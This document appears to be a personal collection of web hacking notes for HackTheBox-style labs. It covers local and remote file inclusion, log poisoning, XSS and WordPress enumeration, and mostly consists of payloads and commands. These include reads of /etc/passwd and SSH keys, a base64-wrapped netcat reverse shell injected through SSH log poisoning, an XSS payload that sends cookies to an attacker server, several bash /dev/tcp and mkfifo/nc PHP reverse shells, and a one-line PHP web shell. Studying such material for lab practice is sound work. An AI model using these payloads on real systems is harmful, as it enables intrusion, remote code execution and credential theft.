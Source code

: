 # Web hacking labs

This is a compilation of the web hacking techniques I could recopilate trying separate it in each category or from what hackthebox machine I was able to get it!

Hope you enjoy!

Generic process:
```
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -u http://10.10.10.88 -o gobuster/port80root.txt

feroxbuster -u http://10.10.10.88 -x php -B -n
```


The different attacks we're going to deploy here and define a methodology are:
- Local File Inclusion
- Wrappers
- Log Poisoning
- Remote File Inclusion
- HTML Injection
- Cross-Site Scripting (XSS)
- Blind Cross-Site Scripting (XSS Blind)?
- Cross-Site Request Forgery (CSRF)
- Server-Side Request Forgery (SSRF)
- SQLi - Error based
- SQLi - Time based
- Padding Oracle Attack (Padbuster)
- Padding Oracle Attack (Bit Flipper Attack with Burpsuite)
- ShellShock
- XML External Entity Injection (XXE)
- Blind XXE
- Domain Zone Transfer
- Insecure Deserialization
- Type Juggling


-----------------------

Other I plan to add:
- IDOR
- Magic Numbers
- IDN homographic attack



## Local File Inclusion
**PoC**
```bash
#run apache service
sudo service apache2 start
#check the port 80 busy
lsof -i:80

#Create a php app
cd /var/www/html
nano example.php
```
```text
<?php
	$filename = $_GET['file']; # ?file=example.php
	include($filename);# to include a particular path include("/var/www/html/" . $filename), but you can bypass with ../../../.....
?>
```


Right now you can exploit the LFI in your local machine with: `localhost/example.php?file=/etc/passwd`

What can we do exploit with this?:
- Enum users (/etc/passwd)
- Extract ssh keys (~/.ssh/id_rsa)
- Log Poisoning
- Enumerate /proc/ information
	- Enumerate process and IP interfaces (/proc/sched_debug)
	- Enumerate IP interfaces (/proc/net/fib_trie)
	- Enumerate open ports (/proc/net/tcp)
	```
	for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
	```
	And if you can't use bc other way to conver hexadecimal to decimal in bash is:
	```
	for port in $(cat /proc/net/tcp | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(printf $port=%d\n)" $((16#$port)); done
	```
#### Bypassing restriction for LFI
[Still not developed]
**Null Byte injection**
Code example:
```php
<?php
	$filename = $_GET['file'];
	include("/var/www/html" . $filename ".randomextension");
?>
```
You could avoid the extension reading adding a null byte injectio
../../../../etc/passwd%00

**PHP Wrappers**
You can try bypass some LFI restirctions using the Wrappers:&
- `http://localhost/example.php?file=file://../../../../etc/passwd`
- `http://localhost/example.php?file=php://filter/convert.base64-encode/resource=/../../../../etc/passwd`
- 


## Log Poisoning
To convert a LFI in RCE we can use the logs files:
```
#check the apache logs
http://localhost/example.php?file=/var/log/apache2/access.log
#ssh login tries
http://localhost/example.php?file=/var/log/auth.log
##to exploit this you can try to use a reverse shell command as a user but code it in base64
echo "nc -e /bin/bash ip_kali 443" | base64
>bmMgLWUgL2Jpbi9iYXNoIGlwX2thbGkgNDQzCg==
###login in the ssh service
ssh '<?php system("echo bmMgLWUgL2Jpbi9iYXNoIGlwX2thbGkgNDQzCg== | base64 -d | bash"); ?>'
```
We can modify the user-agent to execute php code when we access it using the LFI vulenrability
```
curl -s -H "User-Agent: <?php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```

## Remote File Inclusion - RFI
You can create a malicious php in your local machine and make the remote server download and execute this file.
To exploit this and get a reverse shell you need three tabs opened and execute in the next order:
```
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://$malicious_IP/maliciousfile.php
```


## XSS
If you discover some input where you can add html code you can try inject javascript code with:
```
<scrip>alert("testing XSS")</script>
<script>alert(document.cookie)</script>

##Open an http server in your malicious machine (python3 -m http.server)
<script>document.write('<img src="http://127.0.0.1:8000/daffi.png?cookie=' + document.cookie + '">')</script>
```

To Change the cookie in your own browser you can use de plugin "EditThisCookie"

--------------------------------------
## CMR
#### Wordpress
If you detect and wordpress site first thing you should do is locate plugins in that:
```
wpscan -u http://10.10.10.88/webservice/wp/ --enumerate p,t,u | tee wpscan.log

##with wfuzz
###locate *plugin* -> /opt/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
wfuzz -c -hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```



--------------------------------------
# Anex A
PHP functions to execute with php:
- system
- exec
- passthru
- shell_exec


https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

## basic php reverse shells
```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/4321 0>&1'");
?>

<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'");
?>

<?php
        system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4321 >/tmp/f');
?> 

<?php
    echo "<pre>" . shell.exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4321 >/tmp/f') . "</pre>";
?>
```

## Basic php web-shell
```
<?php
	system($_REQUEST['cmd']);
?>


```
